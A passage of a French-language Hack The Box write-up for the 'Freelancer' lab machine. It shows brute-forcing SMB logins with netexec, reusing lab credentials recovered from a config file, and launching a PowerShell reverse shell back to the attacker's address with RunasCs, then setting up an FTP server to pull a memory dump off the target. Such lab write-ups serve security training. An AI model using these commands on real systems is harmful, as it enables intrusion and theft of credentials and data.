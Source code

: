 ![shell as sql_svc](/images/HTB-Freelancer/foothold.png)

Nous trouvons différents utilisateurs sur la cible.

![users list](/images/HTB-Freelancer/users_list.png)

Dans `C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU\sql-Configuration.INI` nous découvrons deux mots de passe.

![passwords list](/images/HTB-Freelancer/passwords_list.png)

### Shell en tant que mikasaackerman

A ce stade, nous avons une liste d'utilisateurs et de mots de passe, nous pouvons utiliser netexec pour faire du brute-forcing.

```
netexec smb 10.10.11.5 -u users.txt -p pwd.txt
```

Les identifiants `mikasaAckerman:IL0v3ErenY3ager` sont valides.

![netexec command](/images/HTB-Freelancer/netexec_bruteforcing.png)

Nous téléchargeons [RunasCs](https://github.com/antonioCoco/RunasCs) sur la cible et exécutons la commande ci-dessous.

```
.\runascs.exe mikasaAckerman "IL0v3ErenY3ager" powershell -r <YOUR_IP_ADDRESS>:<PORT_NUMBER>
```

![runascs command](/images/HTB-Freelancer/runascs_cmd.png)

Sur notre listener, nous acquérons un shell sous le nom de `mikasaackerman`.

![mickasaackerman shell](/images/HTB-Freelancer/mickasa_shell.png)

Sur le bureau, nous trouvons le drapeau utilisateur et deux autres fichiers `mail.txt` et `MEMORY.7z`.

![mickasaackerman desktop](/images/HTB-Freelancer/user_flag.png)

Grâce au fichier txt, nous apprenons que `MEMORY.7z` contient un vidage de mémoire complet, nous le transférerons sur notre machine locale pour un examen plus approfondi.

![mickasaackerman mail](/images/HTB-Freelancer/mail_to_mikasa.png)

Sur notre machine kali, nous démarrons un serveur FTP.

> Utilisez `sudo apt install python3-pyftpdlib` pour installer le module s'il est absent.

```
sudo python3 -m pyftpdlib --port 21 --write
```

![Python FTP server](/images/HTB-Freelancer/ftp_server.png)

